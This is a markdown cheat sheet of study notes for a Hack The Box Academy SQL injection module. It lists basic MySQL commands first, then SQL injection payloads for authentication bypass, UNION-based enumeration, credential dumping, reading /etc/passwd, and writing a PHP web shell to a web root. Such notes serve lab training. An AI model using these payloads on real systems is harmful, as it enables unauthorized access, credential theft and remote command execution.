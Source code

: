 # SQL Injection Fundamentals  

>[Introduction](https://academy.hackthebox.com/module/33/section/177)  

## MySQL  


| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database [Intro to MySQL](https://academy.hackthebox.com/module/33/section/183) |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table [](https://academy.hackthebox.com/module/33/section/190) |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values. Note: we have to specify the 'WHERE' clause with UPDATE, in order to specify which records get updated. The 'WHERE' clause will be discussed next. |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 [Query Results](https://academy.hackthebox.com/module/33/section/191) |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |
| `select * from departments where dept_name like 'Develop%';` | Will get the department number for the `Development` department. |
| `select * from employees where first_name like 'Bar%' and hire_date = '1990-01-01' LIMIT 2;` | Retrieve the last name of the employee whose first name starts with "Bar" AND who was hired on `1990-01-01`. |

## MySQL Operator Precedence  

>[SQL Operators](https://academy.hackthebox.com/module/33/section/192)  

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

>Query: In the 'titles' table, what is the number of records WHERE the employee number is **greater** than `10000` **OR** their title does **NOT** contain `engineer`?  

```
select * from titles WHERE emp_no > 10000 OR title != 'engineer%';
```  

## SQL Injection  

>[Intro to SQL Injections & Types of SQL Injections](https://academy.hackthebox.com/module/33/section/193)  

### Identify SQLi  

| **Payload**   | **URL Encoded**   |
| --------------|-------------------|
| `'` | %27 |
| `"` | %22 |
| `#` | %23 |
| `;` | %3B |
| `)` | %29 |


| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass [Subverting Query Logic - Authentication Bypass](https://academy.hackthebox.com/module/33/section/194) |
| `tom' or '1'='1` | Log in as the user 'tom'. |
| `admin')-- -` | Basic Auth Bypass With comments [Using Comments](https://academy.hackthebox.com/module/33/section/799) |
| `any' OR id =5);# | Login as the user with the id 5 to get the flag. |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) | PayloadsAllTheThings SQL Injection Examples |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |